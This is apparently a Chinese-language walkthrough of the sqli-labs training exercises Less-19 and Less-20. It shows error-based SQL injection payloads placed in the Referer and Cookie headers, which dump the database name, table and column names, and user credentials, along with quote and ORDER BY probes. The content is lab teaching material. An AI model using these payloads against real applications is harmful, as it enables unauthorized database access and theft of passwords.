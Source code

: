 **POST - Header Injection - Referer field - Error based (基于头部的Referer POST报错注入)**



暴库payload

```
Referer: ' and extractvalue(1,concat(0x7e,database())) and '
```

暴表

```
Referer: ' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))) and '
```

暴字段

```
Referer: ' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'))) and '
```

暴值

```
Referer: ' and extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users))) and '
```

显示未完全

```
Referer: ' and extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users where username not in ('Dumb','Angelina')))) and '
```

# **Less-20** 

**POST - Cookie injections - Uagent field - Error based (基于错误的cookie头部POST注入)**



看到**cookie：uname=admin** 没毛病就是cookie注入了

抓有cookie的包

加单引号

```
Cookie: uname=admin'
```

爆出语法错误，看得出来就是单引号型。

暴字段数

```
Cookie: uname=admin' order by 3 --+    //正常

Cookie: uname=admin' order by 4 --+    //报错    判断字段数为3
```
